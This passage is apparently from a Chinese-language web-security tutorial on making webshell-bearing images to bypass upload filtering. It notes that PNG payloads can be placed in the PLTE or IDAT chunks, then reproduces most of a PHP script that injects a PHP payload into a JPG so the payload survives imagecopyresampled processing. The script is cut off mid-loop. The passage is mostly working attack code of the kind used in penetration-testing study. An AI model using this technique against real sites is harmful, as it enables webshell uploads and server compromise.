 **png**

有两种方法，一种是将webshell写如PLTE数据块，另一种是写入IDAT数据块，具体制作方法参考这篇文章:http://0verflow.cn/?p=1502

**jpg**

用大佬写的脚本制作图片马

```php
<?php
    /*
    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.
    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>
    In case of successful injection you will get a specially crafted image, which should be uploaded again.
    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.
    Sergey Bobrov @Black2Fan.
    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
    */
    $miniPayload = '<?php phpinfo();?>';
    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }
    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }
    set_error_handler("custom_error_handler");
    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;
        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }
        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp =
                    substr($outStream, 0, $startPos) .
                    $miniPayload .
                    str_repeat("\0",$nullbytePayloadSize) .
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
```